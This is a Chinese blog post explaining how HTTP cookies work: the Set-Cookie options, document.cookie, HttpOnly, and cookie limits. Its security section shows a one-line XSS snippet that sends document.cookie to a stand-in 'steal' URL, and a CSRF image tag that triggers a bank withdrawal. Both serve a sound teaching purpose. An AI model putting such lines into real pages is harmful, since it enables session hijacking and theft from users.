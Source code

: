 ```yaml
---
title: "HTTP Cookie 的原理与用法"
date: 2018-07-19T13:20:40+08:00
# draft: true
weight: 70
keywords: ["Cookie", "Browser API", "Web Storage", "HTTP", "浏览器 Cookie 用法"]
tags: ["HTTP", "BOM", "Notes"]
categories: ["技术分享"]
author: "Meowu"
# CJKLanguage: Chinese, Japanese, Korean 这样中文摘要才会生效
isCJKLanguage: true
thumbnail : "images/road.jpeg"
---
```



## 浏览器 Cookie

`cookie` 就是浏览器储存在用户电脑上的一小段文本文件。`cookie` 是纯文本格式，不包含任何可执行的代码。一个 Web 页面或服务器告知浏览器按照一定规范来储存这些信息，并在随后的请求中将这些信息发送至服务器，Web 服务器就可以使用这些信息来识别不同的用户。大多数需要登录的网站在用户验证成功之后都会设置一个 `cookie`，只要这个 `cookie` 存在并可以，用户就可以自由浏览这个网站的任意页面。

以下是我登录 `Github` 时响应体：

![Github_Cookies](/images/github_cookies.png)

Web 服务器通过发送一个称为 `Set-Cookie` 的 HTTP 消息头来创建一个 `cookie`，`Set-Cookie` 消息头是一个字符串，其格式如下（中括号中的部分是可选的）：

```shell
Set-Cookie: value; expires=date; path=path
```

`Set-Cookie` 指定的中括号里面的可选项只是给浏览器做记录的。当客户端发起请求，`value` 会被包含在 `HTTP` 报文的 `Cookie` 头中发送到服务器，设置项会被忽略。服务器端框架通常包含解析 `cookie` 的方法，可以通过编程的方式获取 cookie 的值。几乎所有的实现都对 cookie 的值进行了一系列的 URL 编码。对于 `name = value` 格式，通常会对 `name` 和 `value` 分别进行编码，而不对等号 `=` 进行编码操作。`name` 和 `value` 可以有若干个，其它选项分别有以下作用：

#### expires

指定了 `cookie` 何时不会再被发送至服务器，随后浏览器将删除该 `cookie`。没有设置该选项时，`cookie` 的生命周期仅限于当前会话中，关闭浏览器意味着这次会话的结束，所以会话 `cookie` 仅存在于浏览器打开状态之下。

#### domain

指定了 `cookie` 将要被发送至哪个或哪些域中。默认情况下，`domain` 会被设置为创建该 `cookie` 的页面所在的域名，所以当给相同域名发送请求时该 `cookie` 会被发送至服务器。`domain`  选项的值必须是发送 `Set-Cookie` 消息头的主机名（host）的一部分，例如我不能在 [google.com](http://google.com) 上设置一个 `cookie`，因为这会产生安全问题。不合法的 `domain` 选择将直接被忽略。

#### Path

`path` 选项指定了请求的资源 `URL` 中必须存在指定的路径时，才会发送 `Cookie`  消息头。这个比较通常是将 `path` 选项的值与请求的 URL **从头开始**逐字符比较完成的。只有在 `domain` 选项核实完毕之后才会对 `path` 属性进行比较。`path` 属性的默认值是发送 Set-Cookie 消息头所对应的 URL 中的 path 部分。所以上图中第二个 `Set-Cookie` 的名值对只有当请求的是 `github` 子域时才会发送。

#### secure

不像其它选项，该选项只是一个标记而没有值。只有当一个请求通过 `SSL` 或 `HTTPS` 创建时，包含 `secure` 选项的 `cookie` 才能被发送至服务器。这种 `cookie` 的内容具有很高的价值，如果以纯文本形式传递很有可能被篡改。事实上，机密且敏感的信息绝不应该在 `cookie` 中存储或传输，<u>因为 `cookie` 的整个机制原本都是不安全的</u>。默认情况下，在 HTTPS 链接上传输的 `cookie` 都会被自动添加上 secure 选项。

`cookie` 会被浏览器自动删除，通常存在以下几种原因：

1. 会话 `cooke (Session cookie)` 在会话结束时（浏览器关闭）会被删除。
2. 持久化 `cookie（Persistent cookie）` 在到达失效日期时会被删除
3. 如果浏览器中的 `cookie` 数量达到限制，那么 `cookie` 会被删除以为新建的 `cookie` 创建空间。

### 操作 Cookie

浏览器对于每个域下的 `Cookies` 数量和大小是有限制的，为了增加Cookies的储存量，提出了**subcookies:** `name=a=b&c=d&e=f&g=h` 这种方式允许在单个 cookie 中保存多个 name-value 对，而不会超出浏览器 cookie 数量的限制。通过这种方式创建 cookie 的负面影响是，需要**自定义解析方式**来提取这些值，相比较而言 `cookie` 的格式会更为简单。服务器端框架已开始支持 `subcookies` 的存储。

在 JavaScript 中通过 `document.cookie` 属性，你可以创建、维护和删除 cookie。**创建 cookie 时该属性等同于 Set-Cookie 消息头**，而在读取 cookie 时则等同于 Cookie 消息头。在创建一个 `cookie` 时，你需要使用和 `Set-Cookie` 期望格式相同的字符串：

```javascript
document.cookie="name=Nicholas;domain=nczonline.net;path=/";
```

要使用 `JavaScript` 提取 `cookie` 的值，只需要从 `document.cookie` 中读取即可， 它返回的是由分号 `;` 分隔的 `name = value` 字符串。。

**注意：一旦 cookie 通过 JavaScript 设置后便不能提取它的选项，所以你将不能知道 domain，path，expires 日期或 secure 标记。**

### 安全问题

#### 会话劫持

由于可以通过 `document.cookie` 来读取浏览器 `cookies` ，通过一些手段就能导致 `cookies` 被窃取：

```JavaScript
(new Image()).src = "http://www.example/steal?cookie=" + document.cookie
```

微软的 `IE6 SP1` 在 `cookie` 中引入了一个新的选项：`HTTP-only`，HTTP-Only 背后的意思是告之浏览器该 cookie 绝不能通过 JavaScript 的 document.cookie 属性访问。设计该特征意在提供一个安全措施来帮助阻止通过 JavaScript 发起的跨站脚本攻击 (XSS) 窃取 cookie 的行为。

```javascript
Set-Cookie: name=Nicholas; HttpOnly
```

一旦设定这个标记，通过 `documen.cookie`  则不能再访问该 `cookie` 。`IE`  同时更近一步并且不允许通过 `XMLHttpRequest` 的 `getAllResponseHeaders()` 或 `getResponseHeader()` 方法访问 `cookie`，然而其它浏览器则允许此行为。

#### CSRF

加载一张图片可能会导致给服务器发送一个提现的请求：

```JavaScript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止[XSS](https://developer.mozilla.org/en-US/docs/Glossary/XSS)；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；

### 总结

**Cookie** 通常主要用于以下几个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

但是它也存在一些限制以及安全问题：

* 大小限制，通常最多 50 个，或者 4096 B 大小，超过的话会被清除以腾出空间
* 如果储存了大量 `cookies` ，会导致性能损失·
* 导致 XSS 和 CSRF 安全问题
* 隐私泄露

Cookie曾一度用于客户端数据的存储，因当时并没有其它合适的存储办法而作为唯一的存储手段，但现在随着现代浏览器开始支持各种各样的存储方式，Cookie渐渐被淘汰。由于服务器指定Cookie后，浏览器的每次请求都会携带Cookie数据，会带来额外的性能开销（尤其是在移动环境下）。新的浏览器API已经允许开发者直接将数据存储到本地，如使用 [Web storage API](https://developer.mozilla.org/en-US/docs/Web/API/Web_Storage_API) （本地存储和会话存储）或 [IndexedDB](https://developer.mozilla.org/en-US/docs/Web/API/IndexedDB_API) 。·